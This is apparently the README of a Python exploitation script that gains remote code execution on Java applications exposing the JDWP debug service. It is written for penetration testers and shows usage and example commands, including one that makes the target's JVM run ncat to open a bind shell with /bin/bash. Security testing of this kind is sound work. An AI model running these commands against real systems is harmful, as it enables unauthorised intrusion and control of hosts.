 # JDWP exploitation script

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python ./jdwp-shellifier.py -h
	usage: jdwp-shellifier.py [-h] [-check] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by @_hugsy_

    optional arguments:
    -h, --help            show this help message and exit
    -check                Check for vulnerability (default: False)
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
                        Specify full path to method to break on, if does not work, try:
                        java.net.ServerSocket.accept (default: java.lang.String.indexOf)
    --cmd COMMAND         Specify command to execute remotely (default: None)

To check a specific host/port without exploitation:

    $ python ./jdwp-shellifier.py -t my.target.ip -p 1234 -check

To target a specific host/port:

    $ python ./jdwp-shellifier.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 

## Thanks
* Ilja Van Sprundel
* Sebastien Macke





